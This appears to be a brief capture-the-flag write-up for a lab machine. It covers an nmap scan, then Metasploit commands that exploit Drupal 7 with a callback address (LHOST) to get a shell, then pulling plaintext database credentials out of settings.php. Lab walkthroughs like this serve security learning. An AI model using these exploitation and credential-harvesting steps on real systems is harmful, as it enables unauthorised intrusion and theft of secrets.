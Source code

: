 First start with a nmap scant to 10.10.10.233

	sudo nmap -sC -sV -oA nmap_ready 10.10.10.233

We can see that there is a webserver running on port 80. Doing a get request with the browser we can see that there is somekind of login option in the main page.

The nmap scan and wappalyzer tells us that the webserver is using drupal 7.

By searching in exploit database for dupal, we can see that there is a remote code exploit in version 7.5.8 and this exploit is in metasploit

Using metasploit

	msfconsole -q
	search drupal 7.5.8
	use 4
	show option
	set LHOST 10.10.14.230
	set RHOST 10.10.10.233
	run

Now we have access to the webserver.

By going to sites/default we can find the server configuratons in settings.php. In this file we can find a user and password for the database

	user:drupaluser
	pass:CQHEy@9M*m23gBVj
